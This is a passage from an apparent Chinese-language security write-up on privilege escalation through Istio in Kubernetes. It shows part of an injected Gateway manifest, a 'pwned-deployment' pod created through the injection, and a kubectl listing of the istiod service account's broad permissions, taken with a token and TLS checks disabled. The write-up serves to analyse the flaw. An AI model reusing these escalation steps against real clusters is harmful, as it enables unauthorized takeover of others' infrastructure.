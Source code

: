 ```
    protocol: HTTP
    allowedRoutes:
      namespaces:
        from: All
EOF
```

&emsp;&emsp;相关注入的YAML创建的POD：

```

# k get pods -n istio-test
NAME                                 READY   STATUS    RESTARTS   AGE
pwned-deployment1-74bc56fb4b-hv4lg   1/1     Running   0          40s
gatewaytest-67f4f459d8-d7gmt         1/1     Running   0          40s

```

&emsp;&emsp;越权所用的sa为istiod

```
# k config set-context default --namespace=istio-system
# k get sa istiod
NAME                                   SECRETS   AGE
istiod                                 1         44h

```

&emsp;&emsp;istiod权限如下：

```
test@node01:~$ ./kubectl -s https://192.168.128.131:6443 --insecure-skip-tls-verify=true --token ${TOKEN} auth can-i --list
Resources                                                      Non-Resource URLs                     Resource Names                   Verbs
ingresses.networking.k8s.io/status                             []                                    []                               [*]
signers.certificates.k8s.io                                    []                                    [kubernetes.io/legacy-unknown]   [approve]
configmaps                                                     []                                    []                               [create get list watch update]
tokenreviews.authentication.k8s.io                             []                                    []                               [create]
selfsubjectaccessreviews.authorization.k8s.io                  []                                    []                               [create]
selfsubjectrulesreviews.authorization.k8s.io                   []                                    []                               [create]
subjectaccessreviews.authorization.k8s.io                      []                                    []                               [create]
mutatingwebhookconfigurations.admissionregistration.k8s.io     []                                    []                               [get list watch update patch]
validatingwebhookconfigurations.admissionregistration.k8s.io   []                                    []                               [get list watch update]
endpoints                                                      []                                    []                               [get list watch]
namespaces                                                     []                                    []                               [get list watch]
nodes                                                          []                                    []                               [get list watch]
pods                                                           []                                    []                               [get list watch]
customresourcedefinitions.apiextensions.k8s.io                 []                                    []                               [get list watch]
endpointslices.discovery.k8s.io                                []                                    []                               [get list watch]
ingressclasses.networking.k8s.io                               []                                    []                               [get list watch]
```